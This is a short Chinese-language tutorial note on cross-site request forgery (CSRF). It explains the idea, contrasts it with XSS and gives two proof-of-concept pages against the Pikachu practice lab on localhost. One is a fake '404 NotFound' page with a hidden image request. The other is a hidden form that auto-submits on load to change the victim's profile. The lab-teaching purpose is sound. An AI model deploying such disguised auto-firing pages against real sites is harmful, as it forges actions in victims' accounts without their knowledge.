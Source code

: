 # CSRF 

## 原理

利用（受害者）未失效的身份认证信息，诱骗点击或访问，向服务器发送可信任请求，达到非法操作的目的。

## CSRF和XSS区别

![image-20230919114136335](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230919114136335.png)

**CSRF与XSS最大的区别就是，CSRF并没有盗用cookie而是直接利用。**

## GET型CSRF

伪装表单如下：

```
<html>
<head>
<title>404 NotFound</title>
</head>
<body>
<h1>404 NotFound</h1>
<img src="http://127.0.0.1:8083/vul/csrf/csrfget/csrf_get_edit.php?
sex=boy&phonenum=80238023&add=nba%20lakes&email=kobe%40pikachu.com&submit=submit"/>
</body>
</html>
```

## POST型CSRF

构造页面如下：

```
<html>
  <script>
	window.onload = function () {
		document.getElementById("suibian").click();
	}
  </script>
  <body>
    <form action="http://127.0.0.1:8083/vul/csrf/csrfpost/csrf_post_edit.php" method="POST" hidden>
      <input name="sex" value="boy" />
      <input name="phonenum" value="12345678" />
      <input name="add" value="nba lakes" />
      <input name="email" value="kobe&#64;pikachu&#46;com" />
      <input name="submit" value="submit" />
      <input type="submit" id="suibian" value="Submit request" />
    </form>
  </body>
</html>
```
